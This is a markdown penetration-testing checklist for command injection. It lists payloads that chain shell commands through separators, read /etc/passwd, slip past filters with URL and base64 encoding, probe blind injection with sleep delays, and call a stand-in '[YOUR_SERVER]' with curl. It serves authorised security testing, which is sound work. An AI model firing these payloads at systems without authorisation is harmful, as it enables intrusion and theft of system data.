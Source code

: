 ```yaml
---
legal-banner: true
---
```


1.  **Initial Information Gathering** 
    - [ ] Identify and map all endpoints that accept user input which could be used to execute system commands.
    - [ ] Review source code (if available) to understand how user inputs are handled.
    - [ ] Check for user inputs in URLs, form fields, headers, and request bodies that interact with the operating system.

2.  **Basic Command Injection Testing**
    1. Test with simple command injection payloads to identify vulnerabilities:
        - [ ] `; ls`
        - [ ] `| ls`
        - [ ] `&& ls`
        - [ ] `|| ls`
        - [ ] `$(ls)`

3.  **Advanced Command Injection Techniques**
    1. Test for bypassing input validation and filtering:
        - [ ] `; cat /etc/passwd`
        - [ ] `| cat /etc/passwd`
        - [ ] `&& cat /etc/passwd`
        - [ ] `|| cat /etc/passwd`
        - [ ] `$(cat /etc/passwd)`
    2. Use encoding to bypass filters:
        - [ ] URL encoding: `%3B%20ls`
        - [ ] Double URL encoding: `%253B%2520ls`
        - [ ] Base64 encoding: `Y2F0IC9ldGMvcGFzc3dk`
    3. Test for time delay to identify blind command injection:
        - [ ] `; sleep 10`
        - [ ] `| sleep 10`
        - [ ] `&& sleep 10`
        - [ ] `|| sleep 10`
        - [ ] `$(sleep 10)`

4.  **Out-of-Band (OOB) Command Injection**
    1. Set up an OOB endpoint to detect blind command injection:
        - [ ] `; curl http://[YOUR_SERVER]/ping`
        - [ ] `| curl http://[YOUR_SERVER]/ping`
        - [ ] `&& curl http://[YOUR_SERVER]/ping`
        - [ ] `|| curl http://[YOUR_SERVER]/ping`
        - [ ] `$(curl http://[YOUR_SERVER]/ping)`
        - [ ] `\curl http://[YOUR_SERVER]/ping`
5.  **Command Injection in Different Contexts**
    1. Test command injection in file paths:
        - [ ] `/path/to/file; ls`
        - [ ] `/path/to/file| ls`
        - [ ] `/path/to/file&& ls`
    2. Test command injection in environment variables:
        - [ ] `ENV_VAR="value; ls"`
        - [ ] `ENV_VAR="value| ls"`
        - [ ] `ENV_VAR="value&& ls"`
    3. Test command injection in configuration files:
        - [ ] `config_option=value; ls`
        - [ ] `config_option=value| ls`
        - [ ] `config_option=value&& ls`
        
6.  **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about command injection vulnerabilities.
    - [ ] Look for error messages that disclose command execution results or system information.
    - [ ] Verify if application stack traces are exposed in responses.